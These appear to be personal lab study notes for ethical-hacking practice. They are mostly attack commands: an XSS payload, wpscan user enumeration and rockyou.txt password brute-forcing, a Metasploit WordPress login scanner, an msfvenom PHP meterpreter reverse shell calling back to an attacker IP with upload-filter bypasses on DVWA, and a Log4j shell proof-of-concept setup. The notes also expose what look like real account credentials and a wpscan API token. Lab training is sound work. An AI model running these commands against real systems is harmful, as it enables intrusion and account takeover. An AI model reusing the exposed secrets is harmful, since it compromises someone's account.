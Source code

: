 ###### Exploiting XSS Attack & Parameter tampering

```js
<script>alert("Hello World")</script>
```
`?id=[value] in the url`

###### Perform CSRF Attack

**Wordpress**

wpscan api token account creds
- username - pheonixandbreach@protonmail.com
- password - pheonixandbreach123!
API Token - jMupXTlQNAwTSV4XCqZfRjN2iKkoO7QWy0ed0VcIvAk

- `wpscan --url IP --enumerate u`
- `wpscan --url IP --enumerate u`
- `wpscan --url http://IP/wp-login.php --usernames username --passwords /usr/share/wordlists/rockyou.txt --max-threads 50`
- https://www.poftut.com/how-to-scan-wordpress-sites-with-wpscan-tutorial-for-security-vulnerabilities/
- https://blog.sucuri.net/2021/05/wpscan-how-to-scan-for-wordpress-vulnerabilities.html

`wpscan --url http://10.10.10.12:8080/CEH --api-token [api_token] --plugins-detection aggressive --enumerate u,vp --random-user-agent -v`

WP Password Bruteforce Using Metasploit
 
msfconsole
`use auxiliary/scanner/http/wordpress_login_enum`

###### DVWA - File Upload Vulnerability

- `msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.108 LPORT=4444 -f raw -o php_payload.php`
- use exploit/mutli/handler
- upload this payload to the dvwa file_inclusion
	1) Directly Upload payload `.php` file  ---> `Low Security`
	2) Rename the payload to `.jpeg` or `.png` and click uplaod on DVWA -->  capture upload request in Burpsuite rename it and click forward to upload the payload. --> `Medium Security`
	3) Add `GIF98` keyword at the top of the payload file --> Then Rename the payload  file into .jepg and upload it on DVWA --> 
Using Command Injection rename the file extension `| type or mv [path to file] [new filename]` to `.php` and click submit. --> `High Security`

###### Log4J Vulnerability

https://github.com/kozmer/log4j-shell-poc

>[!check] Log4j Vulnerability 
>`sudo apt install docker.io`
>git clone https://github.com/kozmer/log4j-shell-poc.git
>`docker build -t log4j-shell-poc .`
>`docker run --network host log4j-shell-poc`
>Access it on http://ip:8080
>Download Java JDK-8u202 https://www.oracle.com/in/java/technologies/javase/javase8-archive-downloads.html
>Extract the file 
>![](https://i.imgur.com/EDpdgWK.png)
![](https://i.imgur.com/KeFK5IY.png)
![](https://i.imgur.com/2FQijNu.png)
![](https://i.imgur.com/FomIJEk.png)
![](https://i.imgur.com/xYXcHx0.png)
![](https://i.imgur.com/tSnsrwB.png)